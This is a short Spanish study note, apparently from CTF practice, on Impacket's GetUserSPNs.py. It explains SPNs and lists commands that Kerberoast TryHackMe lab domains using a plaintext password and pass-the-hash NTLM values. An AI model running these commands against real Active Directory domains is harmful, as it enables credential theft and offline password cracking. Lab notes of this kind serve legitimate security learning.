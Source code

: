Es una de las herramientas proporcionadas por Impacket. Esta herramienta en particular se utiliza para obtener los Service Principal Names (SPNs) de usuarios en un dominio de Active Directory. 

Los SPNs son identificadores únicos asociados a servicios que se ejecutan bajo el contexto de una cuenta de usuario en un dominio de Active Directory. Son esenciales para la autenticación Kerberos y, por lo tanto, son críticos en el contexto de la seguridad y la administración de sistemas Windows.

# Obtener SPNs con usuario
```
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.116.29 -request
```
![[Pasted image 20240716093412.png]]
- `-request`: indica que se debe realizar una solicitud para obtener los SPNs.

# Obtener SPNs con hash de usuario
Ahora realizaremos un ataque de Kerberoasting con `GetUserSPNs`
```
GetUserSPNs.py -dc-ip 10.10.25.146 raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d
```
![[Pasted image 20240731115759.png]]

Ahora que sabemos que existe una cuenta podemos obtener el TGT
```
GetUserSPNs.py -dc-ip 10.10.25.146 raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -request
```
![[Pasted image 20240731120040.png]]